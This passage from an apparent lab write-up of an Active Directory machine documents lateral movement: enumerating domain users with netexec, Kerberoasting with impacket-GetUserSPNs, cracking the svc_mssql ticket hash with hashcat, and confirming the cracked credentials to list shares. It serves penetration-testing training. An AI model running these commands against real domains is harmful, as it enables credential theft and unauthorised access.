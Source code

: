 
# Lateral Movement

At this point I considered spraying passwords and abusing common AD attacks such as AS-REP roasting and Kerberoasting. To start, I created a user wordlist from the following command output.

```bash
netexec smb 10.10.114.160 -u Julia.Wong -p <REDACTED> --users 
SMB         10.10.114.160   445    BREACHDC         [*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)
SMB         10.10.114.160   445    BREACHDC         [+] breach.vl\Julia.Wong:<REDACTED> 
SMB         10.10.114.160   445    BREACHDC         [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.114.160   445    BREACHDC         [+] Enumerated domain user(s)
SMB         10.10.114.160   445    BREACHDC         breach.vl\Administrator                  Built-in account for administering the computer/domain
SMB         10.10.114.160   445    BREACHDC         breach.vl\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.114.160   445    BREACHDC         breach.vl\krbtgt                         Key Distribution Center Service Account
SMB         10.10.114.160   445    BREACHDC         breach.vl\Claire.Pope                    
SMB         10.10.114.160   445    BREACHDC         breach.vl\Julia.Wong                     
SMB         10.10.114.160   445    BREACHDC         breach.vl\Hilary.Reed                    
SMB         10.10.114.160   445    BREACHDC         breach.vl\Diana.Pope                     
SMB         10.10.114.160   445    BREACHDC         breach.vl\Jasmine.Price                  
SMB         10.10.114.160   445    BREACHDC         breach.vl\George.Williams                
SMB         10.10.114.160   445    BREACHDC         breach.vl\Lawrence.Kaur                  
SMB         10.10.114.160   445    BREACHDC         breach.vl\Jasmine.Slater                 
SMB         10.10.114.160   445    BREACHDC         breach.vl\Hugh.Watts                     
SMB         10.10.114.160   445    BREACHDC         breach.vl\Christine.Bruce                
SMB         10.10.114.160   445    BREACHDC         breach.vl\svc_mssql
```

There are **two kerberoastable users**. 

```bash
impacket-GetUserSPNs  breach.vl/Julia.Wong:<REDACTED> -usersfile users.list -request -dc-ip 10.10.114.160
$krb5tgs$18$krbtgt$BREACH.VL$*krbtgt*$ccf8c1cb0eb0e3c...
$krb5tgs$23$*svc_mssql$BREACH.VL$svc_mssql*$13173f436...
```

Attempting to crack machine account hashes isn’t guaranteed to work but this time it did.

```bash
hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt
$krb5tgs$23$*svc_mssql$BREACH.VL$svc_mssql*$13173f43...:<REDACTED>
```

NetExec confirms that the credentials for the SVC_MSSQL machine account are valid.

```bash
netexec smb 10.10.114.160 -u svc_mssql -p <REDACTED> --shares                        
SMB         10.10.114.160   445    BREACHDC         [*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)
SMB         10.10.114.160   445    BREACHDC         [+] breach.vl\svc_mssql:<REDACTED>
SMB         10.10.114.160   445    BREACHDC         [*] Enumerated shares
SMB         10.10.114.160   445    BREACHDC         Share           Permissions     Remark
SMB         10.10.114.160   445    BREACHDC         -----           -----------     ------
SMB         10.10.114.160   445    BREACHDC         ADMIN$                          Remote Admin
SMB         10.10.114.160   445    BREACHDC         C$                              Default share
SMB         10.10.114.160   445    BREACHDC         IPC$            READ            Remote IPC
SMB         10.10.114.160   445    BREACHDC         NETLOGON        READ            Logon server share 
SMB         10.10.114.160   445    BREACHDC         share           READ,WRITE      
SMB         10.10.114.160   445    BREACHDC         SYSVOL          READ            Logon server share 
```